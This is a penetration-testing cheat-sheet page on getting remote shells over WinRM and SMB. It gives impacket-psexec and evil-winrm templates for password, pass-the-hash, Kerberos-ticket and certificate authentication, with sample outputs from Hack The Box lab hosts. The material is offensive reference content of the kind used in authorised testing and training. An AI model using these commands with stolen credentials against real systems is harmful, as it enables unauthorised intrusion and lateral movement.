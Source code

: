 ```yaml
---
title: "Winrm"
date: 2024-7-27
tags: ["Kerberos", "Pass-The-Hash", "RCE", "Evil-Winrm", "Windows", "Pass-The-Ticket", "Pass-The-Cert", "Winrm", "Psexec"]
---
```


### Psexec

{{< tab set1 tab1 >}}Password{{< /tab >}}
{{< tab set1 tab2 >}}Hash{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>'
```

```console
# Local auth
impacket-psexec '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>@<TARGET>' -hashes :<HASH>
```

```console
# Local auth
impacket-psexec '<USER>@<TARGET>' -hashes :<HASH>
```

{{< /tabcontent >}}

### Evil-Winrm

{{< tab set2 tab1 >}}Password{{< /tab >}}
{{< tab set2 tab2 >}}Hash{{< /tab >}}
{{< tab set2 tab3 >}}Kerberos{{< /tab >}}
{{< tab set2 tab4 >}}crt & key{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
evil-winrm -i <TARGET> -u <USER> -p '<PASSWORD>'
```

```console {class=sample-code}
$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'qwe123QWE!@#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
evil-winrm -i <TARGET> -u <USER> -H <HASH> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All in uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = {
        kdc = HOPE.WINDCORP.HTB:88
        admin_server = HOPE.WINDCORP.HTB
        default_domain = WINDCORP.HTB
    }
    
[domain_realm]
    .domain.internal = WINDCORP.HTB
    domain.internal = WINDCORP.HTB
```

```console
# Step 2: export .ccache
export KRB5CCNAME=<CCACHE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
# Step 3: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab4 >}}

```console
evil-winrm -i <TARGET> -S -k auth.key -c auth.crt
```

{{< /tabcontent >}}
